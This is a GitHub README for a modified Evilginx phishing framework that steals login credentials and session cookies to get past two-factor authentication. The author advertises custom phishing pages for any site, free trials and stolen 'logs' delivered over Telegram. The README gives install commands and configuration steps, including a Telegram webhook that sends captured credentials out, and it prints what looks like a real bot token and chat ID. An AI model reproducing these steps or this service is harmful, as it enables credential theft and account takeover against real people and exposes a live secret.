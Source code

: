 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.1 - Modified by @HosterMSG


~~ OLD VERSION ~~~
https://github.com/EvilHoster/evilginx-3.4.0-telegram-modification
~~ OLD VERSION ~~~



Incase u want more phishlets let me know we can do any website u want without any upfront payments.

We provide 4 hour free testing around before any kind a payment.
In testing time u will have full access to telegram group where logs will be delivered.

https://t.me/HosterMSG




ABOUT NEW UPDATES PLEASE READ CHANGELOGS FILE !
THANKS !



**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:

1. git clone https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification
2. cd EvilGinx2-3.4.1-Modification
3. unzip evilhoster.zip
4. cd evilhoster
5. cd build
6. chmod +rwx evilginx
7. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.

